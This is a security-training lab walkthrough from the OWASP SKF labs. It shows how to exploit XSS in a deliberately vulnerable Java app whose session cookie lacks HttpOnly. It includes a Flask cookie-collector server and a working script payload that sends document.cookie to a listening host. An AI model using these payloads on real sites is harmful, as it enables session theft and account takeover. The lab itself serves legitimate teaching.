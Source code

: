 # HttpOnly Session Hijacking

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:java-session-hijacking-xss
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:java-session-hijacking-xss
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

The attacker can compromise the session token by using malicious code or programs running at the client-side. The example shows how the attacker could use an XSS attack to steal the session token.

Because the server keeps track of the current authenticated user by means of the value of the session cookie, whenever this session cookie gets compromised an attacker is able to impersonate this user by changing his current session cookie with the compromised session cookie in his browsers session storage.

Lets start the application and login with the default credentials.

{% hint style="info" %}
username : admin\
password: admin
{% endhint %}

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/Session-Hijacking/1.png)

After authenticating to the server we can see that the user has a text-area field at his dissposal to insert user input. When we press submit we find that this user supplied input is being reflected on the side of the client. This is a perfect indicator that we might want to start testing for cross site scripting attacks.

{% hint style="info" %}
Refer to the XSS labs for more information how to test!
{% endhint %}

Now, at this point we established that the application is suspectible for cross site scripting attacks after playing around with some payloads. However, the goal for this lab is to obtain the users session cookie to perform a session hijacking attack and to be able to impersonate the user on the server.

We can tell if we can hijack the session information by inspecting the cookies and see if the HTTP/HttpOnly attribute is enabled for the session cookie.

Highlighted in red we find this attribute and see that it is not activated for this application

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/Session-Hijacking/2.png)

Now, we can inject the a piece of malicious javascript to see if we can prompt an alert box that displays the applications session information.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/Session-Hijacking/3.png)

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/Session-Hijacking/4.png)

## Exploitation

Now that we have determined that we can

1\) inject malicious javascript

2\) The HttpOnly attribute is not set for the session cookie

We can start building our malicious payload and hijack the session information to our malicious webserver.

```python
from flask import Flask, request, url_for, render_template, redirect, make_response
import requests

app = Flask(__name__, static_url_path='/static', static_folder='static')
app.config['DEBUG'] = True

@app.route("/<steal_cookie>", methods=['GET'])
def start(steal_cookie):
    return render_template("evil.html")

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1337)
```

Save the snippet above to > app.py and run the commands below to install some dependencies.

```
$ pip install flask
$ pip install requests
$ python app.py
```

Of course you can also run your app on whatever service you want it does not have to be python flask.

Now that the service is running we want to inject the malicious piece of javascript that is responsible for hijacking the victims session information.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/Session-Hijacking/5.png)

```markup
<script>new Image().src="http://localhost:1337/?stolen_cookie="+document.cookie;</script>
```

After injecting the malicious javascript in the text-area field we see the following GET request entering the server logs.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/python/Session-Hijacking/6.png)

The attacker can now change the session cookie value in his browers console by the session cookie that we hijacked with our malicous payload to "hijack" the victims account.
